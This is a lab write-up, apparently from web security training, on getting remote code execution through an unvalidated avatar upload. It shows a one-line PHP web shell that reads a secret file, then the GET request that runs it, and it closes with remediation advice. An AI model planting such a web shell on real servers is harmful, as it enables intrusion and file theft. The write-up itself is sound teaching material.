




# Lab: Remote code execution via Web shell upload

## Description

The application had an avatar upload functionality that allowed uploading files with any extension without proper validation.

The goal of the lab was to read the contents of:

```
/home/carlos/secret
```

---

## Step 1 - Upload a normal image

I first uploaded a normal image and reloaded the page to observe how the application retrieves uploaded avatars.

---

## Step 2 - Find the avatar request

Using Burp Suite HTTP history, I noticed that the uploaded avatar was being accessed through a GET request under:

```
/files/avatars/
```

### Screenshot



---

## Step 3 - Create a malicious PHP file

I created a PHP file called:

```text id="n0j9fd"
exploit.php
```

Containing:

```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

The code uses `file_get_contents()` to read the target file and print its contents.

### Screenshot



---

## Step 4 - Upload the PHP file

I uploaded the PHP file using the avatar upload functionality instead of a normal image.

### Screenshot



---

## Step 5 - Execute the file

After uploading the file, I changed the GET request to:

```
GET /files/avatars/exploit.php HTTP/2
```

Then I reloaded the page, and the server executed the PHP file.

The contents of:

```
/home/carlos/secret
```

were displayed in the response.

### Screenshot



---

## Root Cause

The application failed to properly validate uploaded file extensions and allowed executable files to be stored inside a web-accessible directory.

---

## Impact

An attacker could upload and execute malicious server-side files, leading to Remote Code Execution (RCE).
This may allow reading sensitive files, executing commands, or fully compromising the server.

---

## Remediation

* Restrict allowed file extensions to safe image formats only.
* Validate file types on the server side.
* Store uploaded files outside the web root.
* Disable script execution inside upload directories.
* Rename uploaded files securely before storing them.

---

## Tools Used

* Burp Suite
* Linux Terminal
* PHP

---

## Key Takeaway

Never trust user-uploaded files.
Allowing executable files inside accessible upload directories can easily lead to Remote Code Execution.
